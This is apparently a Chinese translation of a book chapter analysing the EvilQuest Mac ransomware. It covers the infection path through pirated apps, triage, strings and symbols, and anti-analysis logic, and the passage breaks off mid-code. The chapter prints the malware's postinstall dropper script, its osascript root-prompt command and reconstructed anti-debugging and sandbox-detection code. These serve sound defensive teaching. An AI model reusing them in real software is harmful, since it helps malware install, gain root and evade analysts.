







# 第十章：EvilQuest 的感染、分类和去混淆


EvilQuest 是一个复杂的 Mac 恶意软件样本。因为它使用了反分析逻辑、病毒持久性机制和隐秘的有效载荷，它几乎是刻意让人分析的。让我们运用你从本书中学到的技巧来进行分析吧！

本章开始了对恶意软件的全面分析，详细描述了它的感染途径、分类它的二进制文件，并识别了其反分析逻辑。第十一章将继续我们的分析，介绍恶意软件的持久性方法及其众多功能。

## 感染途径

就像生物病毒一样，识别一个样本的感染途径通常是了解其潜在影响并阻止其继续传播的最佳方法。因此，当你分析一个新的恶意软件样本时，首先要回答的问题之一就是：“恶意软件是如何感染 Mac 系统的？”

正如你在第一章中看到的，恶意软件作者使用了各种策略，从不太复杂的社交工程攻击到强大的零日漏洞，来感染 Mac 用户。发现 EvilQuest 的研究员 Dinesh Devadoss 并没有具体说明恶意软件是如何感染 Mac 用户的。^(1) 然而，另一位研究员 Thomas Reed 后来指出，恶意软件出现在通过种子网站分享的盗版流行 macOS 软件中。他特别写道

> 一个看似恶意的 Little Snitch 安装程序可以在一个专门分享种子链接的俄罗斯论坛上下载。一篇帖子提供了 Little Snitch 的种子下载链接，随后不久便有许多评论指出该下载包含恶意软件。事实上，我们发现它不仅是恶意软件，而且是一个通过盗版传播的新型 Mac 勒索病毒变种。^(2)

分发被恶意篡改的盗版或破解应用程序是一个相当常见的针对 macOS 用户进行感染的方法。虽然这不是最复杂的方法，但它相当有效，因为许多用户不喜欢付费软件，而是寻找盗版替代品。图 10-1 显示了恶意 Little Snitch 软件的下载链接。



图 10-1：被 EvilQuest 篡改的盗版 Little Snitch

当然，这种感染途径需要用户交互。具体来说，为了感染 EvilQuest，用户必须下载并运行被感染的应用程序。此外，正如你将看到的，恶意软件的安装包是未签名的，因此在 macOS 的新版本上，用户可能需要主动采取步骤绕过系统的 notarization 检查。

为了尽可能感染更多的 Mac 用户，恶意软件作者悄悄篡改了许多通过 torrent 网站分发的盗版应用程序。在本章中，我们将重点关注一个恶意包装的示例，它是与流行 DJ 应用程序 Mixed In Key 一起捆绑的。^(3)

## 分类

记住，一个应用程序实际上是一个特殊的目录结构，称为 *bundle*，在分发之前必须将其打包。我们正在分析的 EvilQuest 样本是作为一个磁盘镜像 *Mixed In Key 8.dmg* 分发的。如图 10-2 所示，首次发现该样本时，其 SHA-256 哈希值（B34738E181A6119F23E930476AE949FC0C7C4DED6EFA003019FA946C4E5B287A）并未被 VirusTotal 上的任何杀毒引擎标记为恶意。



图 10-2：VirusTotal 上被篡改的 *Mixed* *In* *Key 8.dmg* 文件

当然，今天这个磁盘镜像被广泛检测为含有恶意软件。

### 确认文件类型

由于分析工具通常针对特定的文件类型，而且恶意软件作者可能会尝试掩盖其恶意创作的真实文件类型，因此在遇到潜在的恶意样本时，首先确定或确认文件的真实类型是明智的。在这里，我们尝试使用 `file` 工具确认被篡改的 *Mixed In Key 8.dmg* 确实是一个磁盘镜像。

```
% **file "EvilQuest/Mixed In Key 8.dmg"**

Mixed In Key 8.dmg: zlib compressed data
```

哎呀，看起来 `file` 工具错误地将该文件识别为磁盘镜像以外的其他类型。这并不意外，因为使用 zlib 压缩的磁盘镜像通常会因 zlib 头部而被报告为“VAX COFF”。^(4)

让我们再试一次，这次使用我的 WhatsYourSign (WYS) 工具，它显示了项的代码签名信息并更准确地识别项的文件类型。如图 10-3 所示，该工具的“项类型”字段确认 *Mixed In Key 8.dmg* 确实是一个磁盘镜像，正如预期的那样。



图 10-3：WYS 确认该项为磁盘镜像

### 提取内容

一旦确认该 *.dmg* 文件确实是一个磁盘镜像，我们的下一步任务就是提取磁盘镜像的内容以供分析。使用 macOS 内建的 `hdiutil` 工具，我们可以挂载磁盘镜像并访问其文件：

```
% **hdiutil attach -noverify "EvilQuest/Mixed In Key 8.dmg"**
/dev/disk2            GUID_partition_scheme 
/dev/disk2s1          Apple_APFS
/dev/disk3            EF57347C-0000-11AA-AA11-0030654 
/dev/disk3s1          41504653-0000-11AA-AA11-0030654 /Volumes/Mixed In Key 8
```

一旦此命令完成，磁盘映像将被挂载到 */Volumes/Mixed In Key 8/*。列出该目录的内容会显示一个名为 *Mixed In Key 8.pkg* 的文件，看起来是一个安装包（Listing 10-1）：

```
% **ls "/Volumes/Mixed In Key 8"**
Mixed In Key 8.pkg
```

Listing 10-1: 列出已挂载磁盘映像的内容

我们再次使用 WYS 确认 *.pkg* 文件确实是一个包文件，并检查该包的签名状态。如 Figure 10-4 所示，文件类型已确认为 *.pkg*，但该包未签名。



Figure 10-4: WYS 确认该项为未签名的包

我们还可以通过终端使用 `pkgutil` 工具检查任何包的签名（或缺少签名）。只需传入 `--check-signature` 和包的路径，如 Listing 10-2 所示：

```
% **pkgutil --check-signature "/Volumes/Mixed In Key 8/Mixed In Key 8.pkg"**
Package "Mixed In Key 8.pkg":
   Status: no signature
```

Listing 10-2: 检查包的签名

由于该包未签名，macOS 会在允许打开之前提示用户。然而，尝试盗版软件的用户很可能会忽略此警告，继续操作并不知不觉地开始感染。

### 探索包文件

在第四章中，我们讨论了如何使用 Suspicious Package 工具来探索安装包的内容。在这里，我们将使用它打开 *Mixed In Key 8.pkg*（Figure 10-5）。在 "All Files" 标签页中，我们将找到一个名为 *Mixed In Key 8.app* 的应用程序文件和一个名为 *patch* 的可执行文件。



Figure 10-5: 使用 Suspicious Package 工具探索篡改过的 *Mixed In Key* 包中的文件

我们稍后将检查这些文件，但首先我们应该检查是否有安装前或安装后的脚本。回想一下，当包文件被安装时，任何此类脚本也会自动执行。因此，如果一个安装包包含恶意软件，你通常会在这些脚本中发现恶意安装逻辑。

点击 **All Scripts** 标签页显示 *Mixed In Key 8.pkg* 确实包含一个安装后脚本（Listing 10-3）：

```
#!/bin/sh
mkdir /Library/mixednkey

mv /Applications/Utils/patch /Library/mixednkey/toolroomd
rmdir /Application/Utils

chmod +x /Library/mixednkey/toolroomd

/Library/mixednkey/toolroomd &
```

Listing 10-3: *Mixed* *In* *Key 8.pkg* 的安装后脚本

当篡改过的 *Mixed In Key 8.pkg* 被安装时，脚本将被执行并执行以下操作：

1.  创建一个名为 */Library/mixednkey* 的目录。

1.  将 *patch* 二进制文件（它被安装到了 */Applications/Utils/patch*）移动到新创建的 */Library/mixednkey* 目录中，并将其重命名为 *toolroomd*。

1.  尝试删除 */Applications/Utils/* 目录（在安装过程中创建的目录）。然而，由于命令中的一个错误（恶意软件作者在 */Applications* 中遗漏了 "s"），该操作会失败。

1.  将*toolroomd*二进制文件设置为可执行。

1.  在后台启动*toolroomd*二进制文件。

安装程序在安装过程中请求 root 权限，因此如果用户提供必要的凭据，此后安装脚本也将以提升的特权运行。

通过动态分析监控工具（例如我的 ProcessMonitor 和 FileMonitor），我们可以被动观察此安装过程，包括执行后安装脚本和脚本的命令（清单 10-4）：

```
# ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    "uid" : 0,
    "arguments" : [
      "/bin/sh",
      "/tmp/PKInstallSandbox.3IdCO8/.../com.mixedinkey.installer.u85NFq/postinstall",
      "/Users/user/Desktop/Mixed In Key 8.pkg",
      "/Applications",
      "/",
      "/"
    ],
    "ppid" : 1375,
    "path" : "/bin/bash",
 "name" : "bash",
    "pid" : 1377
  },
  ...
}

{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : { 
    "uid" : 0,
    "arguments" : [
      "mkdir", 
      "/Library/mixednkey"
    ],
    "ppid" : 1377,
    "path" : "/bin/mkdir",
    "name" : "mkdir",
    "pid" : 1378
   }, 
   ... 
} 

{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    "uid" : 0, 
    "arguments" : [
      "mv",
      "/Applications/Utils/patch",
      "/Library/mixednkey/toolroomd"
    ],
    "ppid" : 1377,
    "path" : "/bin/mv",
    "name" : "mv",
    "pid" : 1379
   }, 
    ... 
} 

{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    "uid" : 0,
    "arguments" : [
      "/Library/mixednkey/toolroomd" 1
    ],
    "ppid" : 1,
    "path" : "/Library/mixednkey/toolroomd",
    "name" : "toolroomd",
    "pid" : 1403
  },
...
}
```

清单 10-4：监控恶意后安装脚本的操作

在来自 ProcessMonitor 的这段缩减输出中，您可以看到来自后安装脚本的各种命令（例如`mkdir`和`mv`）在安装恶意软件时被执行。 特别要注意，在完成时脚本会执行已安装为*toolroomd* 1 的恶意软件。

现在让我们使用 Suspicious Package 从包中分别导出*Mixed In Key 8*应用程序和*patch*二进制文件。 首先，让我们来看一下*Mixed In Key 8*应用程序。 通过使用 WYS，我们可以看到它仍然由 Mixed In Key 开发人员有效签名（图 10-6）。



图 10-6：仍然有效签名的应用程序（通过 WYS）

确认项目代码签名签名的有效性告诉我们它自签名以来未被修改或篡改。

恶意软件作者是否可能已经篡改了 Mixed In Key，并窃取了其代码签名证书，偷偷修改了应用程序，然后重新签名？ 公平的问题，答案是可能的，尽管可能性极小。 如果是这种情况，恶意软件作者可能不必采用如此低级的感染机制（通过不光彩的种子站点分发软件），也不必在包中包含另一个未签名的二进制文件。

由于主应用程序仍由开发人员有效签名，让我们将注意力转向*补丁*文件。 正如您很快将看到的那样，这是恶意软件。 （请记住，它作为名为*toolroomd*的文件安装。）使用`file`实用程序，我们可以确定它是一个 64 位 Mach-O 二进制文件，而`codesign`实用程序则指示它未经签名：

```
% **file patch**
patch: Mach-O 64-bit executable x86_64

% **codesign -dvv patch** 
patch: code object is not signed at all
```

由于*patch*是二进制文件而不是脚本，我们将通过利用无论文件类型是否特定于二进制分析的静态分析工具来继续我们的分析。

## 从补丁二进制文件中提取嵌入信息

首先，我们将运行 `strings` 工具来提取任何嵌入的 ASCII 字符串，因为这些字符串通常能为恶意软件的逻辑和功能提供宝贵的洞见。请注意，为了方便起见，我已重新排序输出（见 Listing 10-5）：

```
% **strings - patch**

2Uy5DI3hMp7o0cq|T|14vHRz0000013
0ZPKhq0rEeUJ0GhPle1joWN30000033
0rzACG3Wr||n1dHnZL17MbWe0000013

3iHMvK0RFo0r3KGWvD28URSu06OhV61tdk0t22nizO3nao1q0000033
1nHITz08Dycj2fGpfB34HNa33yPEb|0NQnSi0j3n3u3JUNmG1uGElB3Rd72B0000033
...

--reroot
--silent
--noroot
--ignrp

Host: %s
GET /%s HTTP/1.0

Encrypt
file_exists
_generate_xkey

[tab]
[return]
[right-cmd]

/toidievitceffe/libpersist/persist.c
```

Listing 10-5：提取嵌入的字符串

提取的嵌入字符串揭示了一些看似命令行参数的字符串（如 `--silent`）、网络请求（如 `GET /%s HTTP/1.0`）、潜在的文件加密逻辑（如 `_generate_xkey`）以及键盘映射（如 `[right-cmd]`），这些可能表明存在键盘记录的逻辑。我们还发现了一个包含目录名的路径（*toidievitceffe*），该目录名解码为“effectiveidiot”。我们的继续分析很快会揭示出包含缩写“ei”的其他字符串和函数名（如 `EI_RESCUE` 和 `ei_loader_main`）。看起来“effectiveidiot”是恶意软件开发者为其命名的代号。

`strings` 工具的输出揭示了大量的嵌入字符串（如 `2Uy5DI3hMp7o0cq|T|14vHRz0000013`），这些字符串看起来经过了混淆。这些无意义的字符串很可能表明 EvilQuest 使用了反分析技术。稍后我们将破译这些反分析逻辑，解密所有此类字符串。不过首先，让我们静态提取更多的恶意软件信息。

回想一下，macOS 内置的 `nm` 工具可以提取嵌入的信息，例如恶意软件调用的函数名和系统 API。与 `strings` 工具的输出类似，这些信息可以帮助我们了解恶意软件的功能，并指导后续的分析。让我们对 *patch* 二进制文件运行 `nm`，如同在 Listing 10-6 中所示。为了方便起见，我已重新排序输出：

```
% **nm patch**
                 U _CGEventTapCreate
                 U _CGEventTapEnable

                 U _NSAddressOfSymbol
                 U _NSCreateObjectFileImageFromMemory
                 U _NSLinkModule
                ...

000000010000a550 T __get_host_identifier
0000000100007c40 T __get_process_list

000000010000a170 T __react_exec
000000010000a470 T __react_keys
000000010000a300 T __react_save
0000000100009e80 T __react_scmd

000000010000de60 T _eib_decode
000000010000e010 T _eib_secure_decode
0000000100013708 S _eib_string_key

000000010000e0d0 T _get_targets
0000000100007310 T _eip_encrypt
0000000100007130 T _eip_key

0000000100007aa0 T _is_debugging
0000000100007c20 T _prevent_trace
0000000100007bc0 T _is_virtual_mchn

0000000100008810 T _persist_executable
0000000100009130 T _install_daemon
```

Listing 10-6：提取嵌入的名称（API 调用、函数等）

首先，我们看到一些系统 API 的引用，如 `CGEventTapCreate` 和 `CGEventTapEnable`，这些通常用于捕获用户按键，还有 `NSCreateObjectFileImageFromMemory` 和 `NSLinkModule`，它们可以用来在内存中执行二进制有效负载。输出中还包含了一个长列表的函数名，这些函数名可以直接映射回恶意软件的原始源代码。除非这些函数名被故意错误命名来误导我们，否则它们可以揭示恶意软件的许多方面。例如，

+   `is_debugging`、`is_virtual_mchn` 和 `prevent_trace` 可能表明恶意软件实现了动态分析阻止逻辑。

+   `get_host_identifier` 和 `get_process_list` 可能表明主机调查能力。

+   `persist_executable` 和 `install_daemon` 可能与恶意软件如何保持持久性有关。

+   `eib_secure_decode` 和 `eib_string_key` 可能负责解码这些混淆的字符串。

+   `get_targets`、`is_target` 和 `eip_encrypt` 可能包含恶意软件的所谓勒索软件逻辑。

+   `react_*` 函数（如 `react_exec`）可能包含执行攻击者命令和控制服务器远程命令的逻辑。

当然，我们应该在静态或动态分析中验证此功能。然而，仅凭这些名称就能帮助我们集中精力进行进一步分析。例如，在开始调试会话之前，静态分析那些看起来像是各种反分析功能的代码是明智的，因为这些功能可能会试图阻止调试器，因此需要绕过它们。

## 分析命令行参数

在我们通过静态分析筛选收集到的大量有趣信息的支持下，现在是时候进一步深入探讨了。我们可以通过将 *patch* 二进制文件加载到反汇编工具（如 Hopper）中进行反汇编。对反汇编代码的快速筛查显示，*patch* 二进制文件的核心逻辑出现在其主函数中，该函数相当庞大。首先，二进制文件解析任何命令行参数，查找 `--silent`、`--noroot` 和 `--ignrp`。如果这些命令行参数存在，则会设置相应的标志。接着，如果我们分析引用这些标志的代码，就能了解它们的含义。

### --silent

如果通过命令行传入 `--silent`，恶意软件会将一个全局变量设置为 0。这似乎指示恶意软件以“静默”模式运行，例如抑制错误信息的打印。在以下的反汇编代码片段中，首先通过 `cmp` 指令检查一个变量（我在下面称之为 `silent`）的值。如果它被设置，恶意软件将跳过对 `printf` 函数的调用，从而不会显示错误消息。

```
0x000000010000c375    cmp        [rbp+silent], 1
0x000000010000c379    jnz        skipErrMsg
...
0x000000010000c389    lea        rdi, "This application has to be run by root"
0x000000010000c396    call       printf
```

这个标志也被传递给 `ei_rootgainer_main` 函数，它影响恶意软件（以普通用户身份运行）如何请求 root 权限。请注意，在以下反汇编中，标志的地址被加载到 `RDX` 寄存器中，该寄存器在函数调用的上下文中保存第三个参数：

```
0x000000010000c2eb    lea        rdx, [rbp+silent]
0x000000010000c2ef    lea        rcx, [rbp+var_34]
0x000000010000c2f3    call       ei_rootgainer_main
```

有趣的是，这个标志显式初始化为 0（如果指定了 `--silent` 参数，它会再次设置为 0）。它似乎从未被设置为 1（真）。因此，即使没有指定 `--silent`，恶意软件也将始终以“静默”模式运行。可能在恶意软件的调试版本中，默认值会将该标志初始化为 1。

为了获取 root 权限，`ei_rootgainer_main` 函数调用了一个辅助函数 `run_as_admin_async`，以执行以下（最初加密的）命令，并用自身替换 `%s`。

```
osascript -e "do shell script \"sudo %s\" with administrator privileges" 
```

这将导致 macOS 内置的 `osascript` 提示身份验证（见 图 10-7）。



图 10-7：恶意软件的身份验证提示，通过 `osascript`

如果用户提供了适当的凭证，恶意软件将获得 root 权限。

### --noroot

如果通过命令行传入了`--noroot`，恶意软件会将另一个标志设置为 1（真）。恶意软件内部的各种代码会检查此标志，如果设置了该标志，则采取不同的操作，如跳过请求根权限的步骤。在反汇编代码片段中，请注意，如果设置了标志（最初为`var_20`但此处命名为`noRoot`），则跳过对`ei_rootgainer_main`函数的调用。

```
0x000000010000c2d6    cmp        [rbp+noRoot], 0
0x000000010000c2da    jnz        noRequestForRoot
...
0x000000010000c2f3    call       ei_rootgainer_main
```

`--noroot`参数也被传递给一个持久性函数`ei_persistence_main`：

```
0x000000010000c094    mov        ecx, [rbp+noRoot]
0x000000010000c097    mov        r8d, [rbp+var_24]
0x000000010000c09b    call       _ei_persistence_main
```

对该函数的后续分析显示，此标志决定了恶意软件的持久性方式；作为启动守护程序需要根权限，而作为启动代理则只需要用户权限。

### --ignrp

如果通过命令行传入了`--ignrp`（“忽略持久性”），恶意软件会将一个标志设置为 1，并指示自己不启动任何持久启动项。

我们可以通过检查`ei_selfretain_main`函数中的反汇编代码来确认这一点，该函数包含加载持久组件的逻辑。此函数首先检查标志（此处命名为`ignorePersistence`），如果未设置，则函数将简单返回而不加载持久项目：

```
0x000000010000b786    cmp        [rbp+ignorePersistence], 0
0x000000010000b78a    jz         leave
```

请注意，即使指定了`--ignrp`命令行选项，恶意软件仍将持久存在，因此在感染系统重新启动或用户登录时会自动重新启动。

## 分析反分析逻辑

如果恶意样本包含反分析逻辑，我们必须识别并挫败它以继续分析工作。幸运的是，除了看起来是加密字符串外，EvilQuest 似乎没有采用任何会妨碍我们静态分析的方法。但是，当涉及到动态分析时，我们的运气就不那么好了。

正如第九章所述，样本在虚拟机或调试器中运行时过早退出，通常表明触发了某种动态反分析逻辑。如果尝试在调试器中运行 EvilQuest，您会注意到它简单地终止。这并不奇怪；请回想一下，恶意软件包含名称为`is_debugging`和`prevent_trace`的函数。在这些可能是反调试函数之前，还调用了名为`is_virtual_mchn`的函数。让我们从那里开始分析看起来是恶意软件的反分析逻辑。

### 防虚拟机逻辑？

在您的反汇编器中，查看主函数中的`0x000000010000be5f`。一旦恶意软件处理了任何命令行选项，它就会调用一个名为`is_virtual_mchn`的函数。如下所示的反编译代码片段显示，如果此函数返回非零值，恶意软件将会提前退出：

```
if(is_virtual_mchn(0x2) != 0x0) {
    exit(-1);
}
```

让我们更详细地查看此函数的反编译（Listing 10-7），因为我们希望确保恶意软件在虚拟机中运行（或可以被迫在虚拟机中运行），以便我们可以动态分析它。

```
int is_virtual_mchn(int arg0) {

   var_10 = time();
   sleep(argO);
   rax = time();
   rdx = 0x0;

   if (rax - var_10 < arg0) {
      rdx = 0x1;
   }

   rax = rdx;
   return rax;
}
```

Listing 10-7: 反沙箱检测，通过时间检查

如你在`is_virtual_mchn`的反编译中所见，`time`函数被调用了两次，中间有一个`sleep`调用。然后它比较两次`time`调用之间的差值，以匹配代码休眠的时间。这使得它能够检测到那些修改或加速`sleep`调用的沙箱。正如安全研究员 Clemens Kolbitsch 所指出的，

> 沙箱会修改`sleep`函数，以试图绕过使用时间延迟的恶意软件。作为回应，恶意软件会检查时间是否被加速。它会获取时间戳，进入休眠，然后在醒来时再次获取时间戳。两个时间戳之间的时间差应该与恶意软件预定的休眠时间相同。如果不同，则恶意软件知道它正在运行在一个修改了`sleep`函数的环境中，这种情况通常只会发生在沙箱中。^(5)

这意味着，实际上，`is_virtual_mchn`函数更像是一个沙箱检查，而不会真正检测到标准的虚拟机，因为标准虚拟机不会修改任何时间构造。对我们在隔离虚拟机中继续分析恶意软件的工作来说，这是个好消息。

### 防调试逻辑

我们还需要讨论恶意软件使用的其他反分析机制，因为这些逻辑可能会妨碍我们之后的动态分析工作。回想一下在`strings`工具的输出中，我们看到了似乎是反调试功能的函数：`is_debugging`和`prevent_trace`。

`is_debugging`函数实现于地址`0x0000000100007aa0`。查看清单 10-8 中这个函数的注释反汇编片段，我们看到恶意软件使用`CTL_KERN`、`KERN_PROC`、`KERN_PROC_PID`及通过`getpid()` API 函数获取的 PID 调用了`sysctl`函数：

```
_is_debugging:
0x0000000100007aa0
...
0x0000000100007ae1    mov        dword [rbp+var_2A0], 0x1 ;CTL_KERN
0x0000000100007aeb    mov        dword [rbp+var_29C], 0xe ;KERN_PROC
0x0000000100007af5    mov        dword [rbp+var_298], 0x1 ;KERN_PROC_PID
...
0x0000000100007b06    call       getpid
...
0x0000000100007b16    mov        [rbp+var_294], eax ;process id (pid)
...
0x0000000100007b0f    lea        rdi, qword [rbp+var_2A0]
...
0x0000000100007b47    call       sysctl
```

清单 10-8：通过`sysctl` API 开始的反调试逻辑

一旦`sysctl`函数返回，恶意软件会检查由`sysctl`调用填充的`info.kp_proc`结构中的`p_flag`成员，以查看是否设置了`P_TRACED`标志（清单 10-9）。由于此标志仅在进程正在被调试时设置，因此恶意软件可以通过它来判断是否正在被调试。

```
rax = 0x0;
if ((info.kp_proc.p_flag & 0x800) != 0x0) {
    rax = 0x1;
}
```

清单 10-9：`P_TRACED`标志（`0x800`）是否被设置？如果设置了，说明进程正在被调试。

如果`is_debugging`函数检测到调试器，它会返回非零值，如清单 10-10 的完整重构所示，我是基于反编译结果得出的。

```
int is_debugging(int arg0, int arg1) {

  int isDebugged = 0;

  mib[0] = CTL_KERN; 
  mib[1] = KERN_PROC; 
  mib[2] = KERN_PROC_PID; 
  mib[3] = getpid();

  sysctl(mib, 0x4, &info, &size, NULL, 0);

  if(P_TRACED == (info.kp_proc.p_flag & P_TRACED)) {
 isDebugged = 0x1;
  }

  return isDebugged;
}
```

清单 10-10：使用`sysctl`和`P_TRACED`的反调试逻辑

如`ei_persistence_main`函数中的代码会调用`is_debugging`函数，如果检测到调试器则立即终止（清单 10-11）：

```
int ei_persistence_main(...) {

  //debugger check
  if (is_debugging(arg0, arg1) != 0) {
    exit(1);
  }
```

清单 10-11：如果检测到调试器则提前退出

为了绕过这个反分析逻辑，我们可以选择修改 EvilQuest 的二进制文件并修补掉这段代码，或者使用调试器来颠覆恶意软件在内存中的执行状态。如果你想修改代码，可以将`cmovnz`指令（`0x0000000100007b7a`处）替换为类似`xor eax, eax`的指令，以将函数的返回值清零。由于该替换指令比`cmovnz`少一个字节，你需要为填充添加一个字节的 NOP 指令。

调试方法更加直接，因为我们只需将`is_debugging`函数的返回值置为零。具体来说，我们可以首先在调用`is_debugging`函数后面的指令（`0x000000010000b89f`）设置一个断点，该指令通过`cmp eax, 0x0`检查返回值。一旦断点被触发，我们可以通过`reg write $rax 0`将`RAX`寄存器设置为 0，从而让恶意软件无法察觉到它正在被调试：

```
% **lldb patch**
(lldb) **target create "patch"**
...

(lldb) **b 0x10000b89f**
Breakpoint 1: where = patch`patch[00x000000010000b89f], address = 0x000000010000b89f

(lldb) **r**

Process 1397 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
->  0x10000b89f: cmpl   $0x0, %eax
    0x10000b8a2: je     0x10000b8b2

(lldb) **reg read $rax**
       rax = 0x0000000000000001

(lldb) **reg write $rax 0**
(lldb) **c**
```

我们还没有完全完成，因为恶意软件还包含一个名为`prevent_trace`的函数，顾名思义，它试图通过调试器阻止追踪。列表 10-12 展示了该函数的完整注释反汇编。

```
prevent_trace:
0x0000000100007c20    push       rbp 
0x0000000100007c21    mov        rbp, rsp
0x0000000100007c24    call       getpid
0x0000000100007c29    xor        ecx, ecx
0x0000000100007c2b    mov        edx, ecx
0x0000000100007c2d    xor        ecx, ecx
0x0000000100007c2f    mov        edi, 0x1f ;PT_DENY_ATTACH
0x0000000100007c34    mov        esi, eax  ;process id (pid)
0x0000000100007c36    call     1 ptrace 
0x0000000100007c3b    pop        rbp
0x0000000100007c3c    ret
```

列表 10-12：通过`ptrace` API 实现的反调试逻辑

在调用`getpid`函数以检索其进程 ID 之后，恶意软件调用带有`PT_DENY_ATTACH`标志（`0x1f`）的`ptrace` 1。如前一章所述，这种方式会以两种方式阻碍调试。首先，一旦这个调用被执行，任何尝试附加调试器的操作都会失败。其次，如果调试器已经附加，则在调用该函数后，进程会立即终止。

为了颠覆这种逻辑，以便能够调试恶意软件并促进持续分析，我们再次利用调试器避免调用`prevent_trace`。首先，我们在`0x000000010000b8b2`处设置一个断点，这是调用该函数的位置。当断点被触发时，我们修改指令指针（`RIP`）的值，使其指向下一条指令（`0x000000010000b8b7`）。这样可以确保有问题的`ptrace`调用永远不会执行。

进一步分析表明，EvilQuest 的所有反调试功能都来自同一个函数（`ei_persistence_main`）。因此，我们实际上可以在`ei_persistence_main`函数内设置一个断点，然后修改指令指针，使其跳过两个反调试调用。然而，由于`ei_persistence_main`函数被多次调用，我们的断点会被多次触发，每次都需要手动修改`RIP`。更高效的方法是，在这个断点上添加一个命令，指示调试器在断点触发时自动修改`RIP`并继续执行。

首先，让我们在`call is_debugging`指令处设置一个断点（该指令位于`0x000000010000b89a`）。设置断点后，我们通过`br command add`添加断点命令。在此命令中，我们可以指示调试器修改`RIP`，将其设置为紧接着调用第二个反调试函数`prevent_trace`（`0x000000010000b8b7`）的地址，如 Listing 10-13 所示：

```
 % **lldb patch**

(lldb) **b 0x10000b89a**
Breakpoint 1: where = patch`patch[0x000000010000b89a], address = 0x000000010000b89a
(lldb) **br command add 1**
Enter your debugger command(s).  Type 'DONE' to end.
> **reg write $rip 0x10000b8b7** 
> **continue**
> **DONE**
```

Listing 10-13：通过断点命令绕过反调试逻辑

由于我们还将`continue`添加到断点命令中，调试器将在指令指针被修改后自动继续执行。一旦添加了断点命令，对`is_debugging`的调用和`prevent_trace`反调试函数的调用将会被自动跳过。随着 EvilQuest 的反分析逻辑被完全破解，我们的分析可以不受阻碍地继续进行。

### 混淆字符串

回到主函数，恶意软件收集了一些基本的用户信息，如`HOME`环境变量的值，然后调用了一个名为`extract_ei`的函数。该函数尝试从其磁盘映像的末尾读取`0x20`字节的“尾部”数据。然而，名为`unpack_trailer`的函数（由`extract_ei`调用）返回 0（即假），因此检查魔法值`0xdeadface`失败：

```
;rcx: trailer data
0x0000000100004a39    cmp        dword ptr [rcx+8], 0xdeadface
0x0000000100004a40    mov        [rbp+var_38], rax
0x0000000100004a44    jz         notInfected
```

后续的分析很快会揭示出，`0xdeadface`值被放置在恶意软件感染的其他二进制文件的末尾。换句话说，这就是恶意软件检查它是否通过一个已经（本地）被病毒感染的宿主二进制文件运行。

返回 0 的函数导致恶意软件跳过某些持久化逻辑，这些逻辑似乎将恶意软件作为守护进程持续运行：

```
;rcx: trailer data
;if no trailer data is found, this logic is skipped!
if (extract_ei(*var_10, &var_40) != 0x0) {
   persist_executable_frombundle(var_48, var_40, var_30, *var_10);
